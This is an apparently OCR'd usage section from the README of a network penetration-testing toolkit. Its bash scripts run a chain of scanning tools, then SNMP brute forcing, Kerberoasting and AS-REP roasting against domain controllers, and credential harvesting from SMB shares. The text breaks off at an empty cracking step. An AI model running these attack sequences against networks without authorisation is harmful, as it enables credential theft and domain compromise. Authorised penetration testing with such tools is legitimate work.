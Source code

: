 
# 📚 **Usage Examples**

## **Quick Network Assessment (5 minutes)**
```bash
#!/bin/bash
# quick_scan.sh

./dcseek.py iplist.txt
./printseek.py iplist.txt
./smbseek.py iplist.txt
./dbseek.py iplist.txt
./winrmseek.py iplist.txt
./webseek.py iplist.txt --quick
```

## **Full Internal Pentest (30-60 minutes)**
```bash
#!/bin/bash
# full_pentest.sh

echo "[+] Phase 1: Infrastructure Discovery"
./dcseek.py iplist.txt --enum
./printseek.py iplist.txt -c public,private
./backupseek.py iplist.txt --full
./snmpseek.py iplist.txt --bruteforce

echo "[+] Phase 2: Vulnerability Assessment"
./vulnseek.py iplist.txt -m --full
./webseek.py iplist.txt --full
./panelseek.py iplist.txt --full

echo "[+] Phase 3: Service Enumeration"
./smbseek.py iplist.txt -t
./shareseek.py iplist.txt
./dbseek.py iplist.txt -t
./winrmseek.py iplist.txt -t

echo "[+] Phase 4: Active Directory Attacks"
./ldapseek.py dclist.txt --full
./kerbseek.py --auto dclist.txt -u user@domain -p pass

echo "[+] Phase 5: Credential Harvesting"
./credseek.py smblist.txt --deep --gpp dclist.txt

echo "[+] Done! Check output files."
```

## **Targeted AD Attack (10 minutes)**
```bash
#!/bin/bash
# ad_attack.sh

# Enumerate
./ldapseek.py dclist.txt --spns --asrep

# Attack
./kerbseek.py --kerberoast --spns spns.txt -d domain.com --dc 10.0.0.1
./kerbseek.py --asreproast --users asrep_users.txt -d domain.com --dc 10.0.0.1

# Crack
```